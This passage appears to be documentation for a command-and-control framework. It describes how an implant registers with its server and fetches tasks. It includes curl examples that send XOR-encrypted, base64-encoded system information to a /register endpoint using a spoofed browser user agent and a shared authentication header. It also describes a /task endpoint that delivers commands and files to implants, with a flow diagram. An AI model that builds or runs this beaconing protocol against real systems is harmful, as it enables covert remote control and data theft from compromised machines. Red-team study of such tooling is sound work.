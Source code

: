 **Example CURL**:
```bash
# GET Request, internally in this process INITIAL XOR KEY is used.
curl -X GET "http://server:port/register" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \

# POST Request, from this and on UNIQUE XOR KEY is used for communication process. 
curl -X POST "http://server:port/register" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko" \
  -H "X-Correlation-ID: PASIOnodnoqonasond12314" \
  -H "X-Request-ID: <guid>" \
  -d '{"data": "<base64_encoded_unique_xor_encrypted_system_info>"}'
```

### Task Flow (How an Implant get a task to execute) - Implant Server
### 1. Task Endpoint (`/task`)

**Purpose**: Delivers commands and handles file uploads to Implant.

**Methods**: 
- GET: Retrieve pending commands
- GET `/task/<file_id>`: Download files for upload command

**Headers Required**:

| Header | Value | Description |
|--------|-------|-------------|
| X-Request-ID | `<implant_guid>` | Unique identifier for the implant |
| User-Agent | `<user_agent>` | Configured user agent |
| X-Correlation-ID | `<http_allow_key>` | Authentication key for machine-to-machine 
| Content-MD5 | `<task_guid>` | Task GUID (only for file downloads) |


### Task flow: Execute a command

**Execute a Command Flow**:

Communication Diagram:
```
+----------------+     +----------------+     +----------------+
|    Implant     |     |    Server      |     |   Database     |
+----------------+     +----------------+     +----------------+
        |                     |                      |
        |-- GET /task ------->|                      |
        |                     |-- Query tasks ------>|
        |                     |<-- Return tasks -----|
        |                     |                      |
        |<-- Tasks -----------|                      |
        |                     |                      |
+----------------+     +----------------+     +----------------+
```
